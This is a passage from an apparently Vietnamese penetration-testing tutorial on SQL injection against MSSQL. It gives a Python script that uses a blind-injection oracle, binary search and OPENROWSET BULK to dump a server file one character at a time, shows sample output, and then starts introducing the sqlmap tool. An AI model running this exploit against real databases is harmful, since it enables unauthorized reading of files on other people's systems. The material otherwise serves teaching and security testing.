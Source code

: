 - **Bước 2: Dump nội dung file.**

Khi đã biết độ dài của file, chúng ta có thể dump (trích xuất) nội dung file theo từng ký tự. Để lấy từng ký tự, chúng ta sử dụng tìm kiếm nhị phân để đoán giá trị ASCII của nó bằng cách điều chỉnh các giới hạn `low` và `high`:

```python
print("[*] File = ", end='')
for i in range(1, length + 1):
    low = 0
    high = 127
    while low <= high:
        mid = (low + high) // 2
        if oracle(f"(SELECT ASCII(SUBSTRING(BulkColumn,{i},1)) 
                   FROM OPENROWSET(BULK '{file_path}', SINGLE_CLOB) AS x) 
                   BETWEEN {low} AND {mid}"):
            high = mid - 1
        else:
            low = mid + 1
    print(chr(low), end='')
sys.stdout.flush()
print()
```

Điều này sẽ in ra nội dung của file từng ký tự một.

**Ví Dụ Khi Chạy:**

Khi bạn chạy script Python trên (giả sử bạn có quyền SQL injection và quyền cần thiết), kết quả sẽ giống như sau:

```bash
[*] File length = 37
[*] File = Đây là nội dung của file
```

Quá trình này có thể mất một khoảng thời gian vì mỗi ký tự được đọc lần lượt, và tìm kiếm nhị phân cần thời gian cho mỗi ký tự.

---

# 14. Công Cụ SQLMap

**SQLMap** là một công cụ kiểm thử xâm nhập mã nguồn mở rất phổ biến, được tự động hóa để phát hiện và khai thác các lỗi SQL injection trên nhiều loại cơ sở dữ liệu, bao gồm MSSQL.

### Cài Đặt SQLMap
SQLMap là một công cụ được viết bằng Python và có thể chạy trên các hệ điều hành như Windows, Linux, hoặc macOS. Công cụ này thường được cài sẵn trên một số hệ điều hành Linux, chẳng hạn như Kali Linux hoặc ParrotOS.

Để cài đặt SQLMap, bạn chỉ cần thực hiện các bước sau:
1. Tải phiên bản mới nhất từ trang GitHub releases.
2. Giải nén tập tin tải về.
3. Vào thư mục chứa SQLMap và chạy lệnh:
   ```bash
   python3 sqlmap.py
   ```
